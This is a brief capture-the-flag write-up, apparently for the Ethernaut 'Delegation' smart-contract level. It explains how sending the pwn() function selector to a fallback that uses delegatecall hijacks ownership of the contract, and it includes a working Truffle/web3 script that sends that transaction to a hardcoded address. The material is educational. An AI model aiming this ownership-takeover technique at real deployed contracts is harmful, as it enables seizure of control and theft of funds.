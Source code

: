 ### Analysis
We just have to send function signature of pwn method of Delegate as msg.data to fallback so that code of Delegate is executed in the context of Delegation. That changes the ownership of Delegation.

### The Exploit
truffle script:
(tips:if don't set gaslimit in truffle script,it will show that "Although one or more Error Occurred [out of gas] Contract Execution Completed" )
~~~
module.exports = async function(callback) {
    const accounts = await web3.eth.getAccounts()
    player = accounts[1]
	delegation='0x6A2b56e310A1E2fEb8558870989EE57955fB2Adc'
	sig=web3.eth.abi.encodeFunctionCall({
		name:'pwn',
		type:'function',
        inputs:[]},
        []
	)
    console.log(player)
	console.log(await web3.eth.sendTransaction({from:player,to:delegation,data:sig,gasLimit: 100000}))
	callback();
}
~~~